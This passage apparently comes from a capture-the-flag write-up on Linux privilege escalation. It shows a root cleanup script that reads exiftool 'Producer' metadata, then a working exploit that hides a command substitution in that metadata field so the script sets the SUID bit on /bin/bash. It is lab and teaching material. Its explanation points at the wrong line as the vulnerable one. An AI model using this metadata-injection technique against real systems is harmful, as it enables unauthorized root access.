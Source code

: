 And we find the following:

```bash
CMD: UID=0     PID=3070   | /bin/bash /usr/local/sbin/cleancache.sh
```

```bash
## /usr/local/sbin/cleancache.sh
#! /bin/bash
cache_directory="/tmp"
for cfile in "$cache_directory"/*; do

    if [[ -f "$cfile" ]]; then

        meta_producer=$(/usr/bin/exiftool -s -s -s -Producer "$cfile" 2>/dev/null | cut -d " " -f1)

        if [[ "$meta_producer" -eq "dompdf" ]]; then
            echo "Removing $cfile"
            rm "$cfile"
        fi

    fi

done
```

This code scans the `/tmp` folder and extracts the metadata from all files, and then it deletes them.

It extracts specifically the `Producer` metadata, so we can try to put something in there.

The code is vulnerable to quoted expression injection

```bash
    if [[ -f "$cfile" ]]; then
```

So we create a file that modifies the SUID bit to the Bash binary:

```bash
www-data@interface:/tmp$ mkdir nothere

www-data@interface:/tmp$ echo -ne '#!/bin/bash\nchmod u+s /bin/bash' > nothere/owned

www-data@interface:/tmp$ chmod +x nothere/owned

www-data@interface:/tmp$ ls -lah /bin/bash
	-rwxr-xr-x 1 root root 1.1M Apr 18  2022 /bin/bash
```

After that, we create a new file and link the `Producer` metadata to this file.

```bash
www-data@interface:/tmp$ touch pwn

www-data@interface:/tmp$ exiftool -Producer='w[$(/tmp/nothere/owned)]' pwn
	1 image files updated
```
